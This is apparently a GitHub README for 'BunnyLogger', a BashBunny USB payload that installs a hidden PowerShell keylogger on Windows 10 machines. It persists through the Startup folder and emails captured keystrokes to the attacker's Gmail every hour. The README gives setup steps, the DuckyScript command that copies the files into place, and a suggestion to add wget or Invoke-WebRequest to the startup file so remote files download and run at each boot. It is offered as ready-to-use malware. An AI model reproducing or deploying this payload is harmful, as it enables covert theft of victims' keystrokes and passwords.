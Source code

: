 # Bunny Logger
> Chris Taylor [Blue Cosmo] | 08/24/21
---

```
__________                           .____                                      
\______   \__ __  ____   ____ ___.__.|    |    ____   ____   ____   ___________ 
 |    |  _/  |  \/    \ /    <   |  ||    |   /  _ \ / ___\ / ___\_/ __ \_  __ \
 |    |   \  |  /   |  \   |  \___  ||    |__(  <_> ) /_/  > /_/  >  ___/|  | \/
 |______  /____/|___|  /___|  / ____||_______ \____/\___  /\___  / \___  >__|   
        \/           \/     \/\/             \/    /_____//_____/      \/         
```

## Overview:
```
BunnyLogger is a BashBunny payload that uses PowerShell to log keystrokes
```
- moves *c.cmd* file to windows startup directory
- *c.cmd* will secretly run *p.ps1*
- *p.ps1* will log keystrokes 
- *l.ps1* will email the logs every startup and every hour [via SMTP]
    - sends logs hourly, regardless of system time

## Resources:
- [YouTube Video](https://www.youtube.com/watch?v=z8KD9zU50xc)
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- Gmail account
    - i suggest making a separate Gmail account for this payload
    - your Gmail must have [LSA Access](https://myaccount.google.com/lesssecureapps?pli=1&rapt=AEjHL4Px2VEFPoFPEuLutMD6UhNVRyY9P3s7l-pCGA53NBqilKVrtltrfS1823x5i6k6_pSEVp6jkEW0zKQT2CHN0WXh4fvGiw) enabled
- Windows 10 Target

## Instructions:
Set-Up/Installation
1. change Gmail credentials in *p.ps1*
```powershell
# gmail credentials
$email = "example@gmail.com"
$password = "password"
```
2. in line 7 of *duckyscript.txt*, change 'switch1' to whatever switch you use
3. in line 7 of *duckyscript.txt*, change 'BashBunny' to the name of your BashBunny
```powershell
STRING $u=gwmi Win32_Volume|?{$_.Label -eq'BashBunny'}|select name;cd $u.name;cp .\payloads\switch1\p.ps1 $env:temp;cp .\payloads\switch1\l.ps1 $env:temp;cp .\payloads\switch1\c.cmd "C:/Users/$env:UserName/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup";cd $env:temp;echo "">"$env:UserName.log";
```
## Extraneous:
The *c.cmd* attack opportunity
```
the c.cmd file runs every startup.
this means an attacker could place a
'wget' or 'Invoke-WebRequest' and have a file
be downloaded from anywhere on the internet onto the computer.
the file would then save in the startup directory,
allowing it to run every startup
```
---
- hope you enjoy the payload!!
- please subscribe to my [YouTube channel](https://youtube.com/cosmodiumcs) :)
